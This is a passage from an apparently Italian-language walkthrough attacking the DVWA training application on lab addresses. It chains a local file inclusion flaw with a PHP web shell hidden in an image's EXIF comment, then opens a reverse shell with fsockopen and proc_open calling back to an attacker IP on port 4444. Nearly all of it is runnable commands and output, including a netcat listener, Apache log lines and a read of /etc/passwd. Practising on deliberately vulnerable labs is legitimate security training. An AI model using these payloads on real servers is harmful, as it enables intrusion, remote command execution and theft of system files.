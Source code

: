 **Step 2 - LFI Exploitation**:
```bash
# Test della vulnerabilità LFI
curl -b "PHPSESSID=session_id_123" \
"http://192.168.1.100/DVWA/vulnerabilities/fi/?page=../../hackable/uploads/file.jpg"
```

**Step 3 - Command Execution**:
```bash
# Esecuzione di comandi via payload EXIF
curl -b "PHPSESSID=session_id_123" \
"http://192.168.1.100/DVWA/vulnerabilities/fi/?page=../../hackable/uploads/file.jpg&cmd=whoami"
```

#### Reverse Shell via EXIF

**Enhanced EXIF Payload**:
```bash
exiftool -Comment='<?php 
$ip="192.168.1.50";
$port=4444;
if(isset($_GET["rev"])){
    $sock=fsockopen($ip,$port);
    $proc=proc_open("/bin/sh",array(0=>$sock,1=>$sock,2=>$sock),$pipes);
}
?>' base_image.jpg -o file.jpg
```

**Trigger Reverse Shell**:
```bash
# Setup listener
nc -lnvp 4444 &

# Trigger via LFI
curl -b "PHPSESSID=session_id_123" \
"http://192.168.1.100/DVWA/vulnerabilities/fi/?page=../../hackable/uploads/file.jpg&rev=1"
```

#### Apache Log Analysis

**Successful Exploitation Confirmation**:
```bash
# Analisi dei log Apache per confermare l'exploitation
sudo tail -f /var/log/apache2/access.log

# Log entry per il successo:
192.168.1.50 - - [27/Jul/2025:19:02:15 +0200] "GET /DVWA/vulnerabilities/fi/?page=file.jpg&rev=1 HTTP/1.1" 200 1626 "http://192.168.1.100/DVWA/vulnerabilities/fi/" "Mozilla/5.0..."
```

**Reverse Shell Connection Log**:
```bash
# Netcat listener output
nc -lnvp 4444
Connection from 192.168.1.100:43892
$ whoami
www-data
$ pwd
/var/www/html/DVWA/vulnerabilities/fi
$ cat /etc/passwd | tail -5
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:113:118:MySQL Server,,,:/nonexistent:/bin/false
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```

---